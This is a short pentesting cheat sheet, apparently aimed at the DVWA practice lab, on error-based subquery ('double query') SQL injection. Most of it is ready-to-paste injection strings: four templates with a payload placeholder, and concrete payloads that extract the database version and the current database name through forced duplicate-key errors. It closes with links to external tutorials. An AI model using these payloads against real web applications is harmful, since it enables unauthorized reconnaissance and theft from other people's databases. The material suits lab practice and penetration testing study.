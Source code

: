 ```yaml
---
author(s):
  - Userware
tags:
  - webapp-pentesting
  - server-side-attack
  - enumeration-and-discovery
  - sql-injection
  - error-based
  - dvwa
---
```

# 01 - Database Reconnaissance

## 1.1 - SubQuery (Double Query) Injection

Subquery injection is often referred as double injection. It is the second method other than union technique. In contrast, the SQL query is more difficult to read yet it can serve as alternative to retrieve data.

```sql
1' OR (SELECT 1 FROM (SELECT COUNT(*),CONCAT((<SQL_Payload>),':',FLOOR(RAND(0) * 2)) grouped_table FROM information_schema.tables GROUP BY grouped_table) subquery)#

1' OR (SELECT 1 FROM (SELECT COUNT(*),CONCAT((<SQL_Payload>),0x3a,FLOOR(RAND(0) * 2)) grouped_table FROM information_schema.tables GROUP BY grouped_table) subquery)#

1' OR (SELECT 1 FROM (SELECT COUNT(*),CONCAT(':', ':', (<SQL_Payload>),':', ':',FLOOR(RAND(0) * 2)) grouped_table FROM information_schema.tables GROUP BY grouped_table) subquery)#

1' OR (SELECT 1 FROM (SELECT COUNT(*),CONCAT(0x3a, 0x3a, (<SQL_Payload>),0x3a, 0x3a, FLOOR(RAND(0) * 2)) grouped_table FROM information_schema.tables GROUP BY grouped_table) subquery)#
```

## 1.2 - Enumeration and Discovery

### 1.2.1 - Banner Grab

```sql
1' OR (SELECT 1 FROM (SELECT COUNT(*),CONCAT((SELECT VERSION()),':',FLOOR(RAND(0) * 2)) grouped_table FROM information_schema.tables GROUP BY grouped_table) subquery)#
```

### 1.2.2 - Current Database

```sql
1' OR (SELECT 1 FROM (SELECT COUNT(*),CONCAT((SELECT DATABASE()),':',FLOOR(RAND(0) * 2)) grouped_table FROM information_schema.tables GROUP BY grouped_table) subquery)#
```

---
## References

### Security Idiots

- [SecurityIdiots: Error-Based Injection Subquery Injection](https://securityidiots.com/Web-Pentest/SQL-Injection/Error-Based-Injection-Subquery-Injection.html)

### Videos

- [SQL Injection Master Course - Lecture 16 - Important 26 Commands for Advance SQL Injection](https://www.youtube.com/watch?v=Be60oqlFYHw)

- [SQL Injection Master Course - Lecture 17 - Double Query Injection](https://www.youtube.com/watch?v=QFy1Ejn-5mU)